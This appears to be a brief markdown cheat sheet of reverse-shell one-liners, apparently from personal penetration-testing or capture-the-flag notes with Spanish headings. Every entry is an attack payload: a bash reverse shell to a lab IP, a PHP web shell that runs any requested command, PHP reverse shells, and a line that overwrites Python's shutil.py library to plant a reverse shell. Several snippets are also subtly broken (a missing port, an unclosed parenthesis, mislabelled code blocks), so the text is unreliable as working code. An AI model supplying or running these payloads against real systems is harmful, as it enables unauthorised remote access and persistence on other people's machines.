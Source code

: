 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```